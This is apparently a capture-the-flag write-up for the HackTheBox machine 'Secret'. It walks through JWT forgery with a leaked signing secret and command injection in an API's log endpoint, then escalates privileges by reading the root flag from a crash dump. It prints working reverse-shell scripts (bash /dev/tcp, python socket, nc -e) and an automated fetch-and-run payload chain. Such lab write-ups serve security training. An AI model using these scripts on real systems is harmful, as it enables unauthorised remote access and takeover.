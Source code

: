 # Secret

## Remote Discovery

> Note: the box IP has been added to the `/etc/hosts` file as `secret.htb`

### Nmap Scan

An `nmap -Sc -Sv secret.htb` yields:
```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
...
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
...
3000/tcp open  http    Node.js (Express middleware)
...
```

looks like we have an http server, lets use some gobuster:

### Gobuster
```
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://secret.htb | tee gb_common.txt
...
/api                  (Status: 200) [Size: 93]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/docs                 (Status: 200) [Size: 20720]
/download             (Status: 301) [Size: 183] [--> /download/]
```

### Source Code and User Creation/Access
Looking around at the site, we can find that there is some source code, as well as docs explaining the code. It appears that the current site is running the source code you can download from the site... So now we just need to exploit it. We can start with user creation.

The docs outline a way to send a POST request to create a user, we can accomplish this with such a command:
```bash
$ curl -H "Content-Type: application/json" -d '{"name":"tester","email":"blaine.bublitz@gmail.com","password":"tester"}' http://secret.htb:3000/api/user/register

{"user":"tester"}
```

This creates the user `tester` with the password `tester`. It is of note, that not all emails will work, I found this one in the source code and just tried it. I doubt we'll actually need an email for this exploit, so anything that works will be fine.

The next steps outlined in the docs is to send a POST request to login and we should recieve an auth token:
```bash
$ curl -H "Content-Type: application/json" -d '{"email":"blaine.bublitz@gmail.com","password":"tester"}' http://secret.htb:3000/api/user/login

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTgxNTMzMDdlMDQyMDA0Nzk4OWJhYWUiLCJuYW1lIjoidGVzdGVyIiwiZW1haWwiOiJibGFpbmUuYnVibGl0ekBnbWFpbC5jb20iLCJpYXQiOjE2MzU4NjU5NzZ9.UF6A5i8uOlilGot6_ipbpjkoifzd8KrSmlSKsL_r7tw
```

We can now use this auth token for some eploit goodness.

## Remote Code Execution

Using the token we generate from the admin account, we can run some remote code execution through the `/api/logs` page. By url encoding some commands and slapping that on the file param, we can get some execution, lets make a script to make this easier:
```bash
$ cat run_command.sh

#!/bin/bash
TOKEN=$1
COMMAND=$2
COMMAND=$( node -e "console.log(encodeURIComponent(\"$COMMAND\"))" )
echo -e $(curl -s -H "auth-token: $TOKEN" -X GET "http://secret.htb:3000/api/logs?file=$COMMAND")
```

With this, we can use some reverse shell magic to get a reverse shell. For conveniance, I've created a script that tries a few different reverse shell techniques:
```bash
$ cat remote_shell.sh

#!/bin/bash
# Usage ./remote_shell.sh IP_ADDRESS PORT

IPADDR=$1
PORT=$2

echo "Attempting to connect through bash and tcp..."
bash -i >& /dev/tcp/$IPADDR/$PORT 0>&1 && exit 1 || echo "Failed to use bash -i with tcp"

echo "Attempting python connection..."
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("'$IPADDR'",'$PORT'));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' && exit 1 || echo "Failed at python connection"

echo "Attempting a netcat connection..."
nc -e /bin/sh $IPADDR $PORT && exit 1 || echo "Failed netcat connection"
```

Using this, we get the file to the server using a python http server, and a `./run_command "curl http://IPADDRESS/remote_shell.sh > /tmp/remote_shell.sh"` and a `./run_command "/bin/bash /tmp/remote_shell.sh IPADDR PORT"` while starting a netcat listener on a given port, then we've got a shell!

To make this easier, I've made a script to automate this:
```bash
$ cat shell.sh

#!/bin/bash

# Get some vars
if [[ -z $1 ]]; then
        PORT=5001
else
        PORT=$1
fi
TMPFILE=tmpfile19527613
TOKEN_SECRET=gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
PAYLOAD='{_id:"618153307e0420047989baae",name:"theadmin",email:"root@dasith.works",iat:1635865976}'
TOKEN=$( node -e "const jwt = require('jsonwebtoken'); console.log(jwt.sign($PAYLOAD, '$TOKEN_SECRET' ));" )
IP=$(ifconfig tun0 | grep 'inet ' | cut -d: -f2 | awk '{print $2}')
cat <<EOF> $TMPFILE
bash -i >& /dev/tcp/$IP/$PORT 0>&1 && exit 1
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("'$IP'",'$PORT'));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' && exit 1
nc -e /bin/sh $IP $PORT && exit 1
xterm -display $IP:$PORT && exit 1
EOF
C1="nofile; curl http://$IP/$TMPFILE > /tmp/shell.sh"
C1=$( node -e "console.log(encodeURIComponent(\"nofile; pwd; $C1\"))" )
C2="nofile; /bin/bash /tmp/shell.sh $IP $PORT"
C2=$( node -e "console.log(encodeURIComponent(\"nofile; pwd; $C2\"))" )
C3="nofile; rm /tmp/shell.sh"
C3=$( node -e "console.log(encodeURIComponent(\"nofile; pwd; $C3\"))" )

# Define cleanup function
function cleanup {
        rm $TMPFILE
        echo "Removing shell file on server"
        res=$(echo -e $(curl -s -H "auth-token: $TOKEN" -X GET "http://secret.htb:3000/api/logs?file=$C3"))
}
trap cleanup EXIT

# Start http server
python3 -m http.server 80 &
pid=$!
sleep 1

# Get the reverse script
res=$(echo -e $(curl -s -H "auth-token: $TOKEN" -X GET "http://secret.htb:3000/api/logs?file=$C1"))
#echo $res # for debugging
sleep 1

# Stop the http server
kill "${pid}"

# Start a nc listener and run the connection
{ sleep 2; res=$(echo -e $(curl -s -H "auth-token: $TOKEN" -X GET "http://secret.htb:3000/api/logs?file=$C2")); } &
nc -lvnp $PORT
```

## Privesc

Looking around for an exploit to get the root flag, we can find the script `/opt/count` with corresponding c code in `/opt/code.c`. This program appears to be able to read the root flag as `printf "/root/root.txt\nn" | /opt/count"` will give use the number of characters, words, and lines in the file. We might be able to leverage this program to show us the root flag.

We know that the program has `prctl(PR_SET_DUMPABLE, 1);`, which means that we can kill the file while its trying to write to a file and read through the dump. For this exploit, we will need 2 shells:

#### Shell 1
```bash
dasith@secret:~/local-web$ /opt/count
/root.txt
y
```

### Shell 2
```bash
dasith@secret:~/local-web$ ps aux | grep /opt/count
root         839  0.0  0.1 235672  7472 ?        Ssl  14:37   0:00 /usr/lib/accountsservice/accounts-daemon
dasith      1229  0.0  0.0   2488   580 ?        S    14:43   0:00 /opt/count -p
dasith      1231  0.0  0.0   6432   672 ?        S    14:44   0:00 grep --color=auto count

dasith@secret:~/local-web$ kill 1229
```

This creates a dump file in `/var/crash`, and we can use the `apport-unpack` command to unpack the crash data:
```
dasith@secret:~/local-web$ apport-unpack /var/crash/_opt_count.1000.crash /tmp/dump
dasith@secret:~/local-web$ strings /tmp/dump/CoreDump
...
ROOT_FLAG
...
```

Boom! Finished with the root flag (redacted).
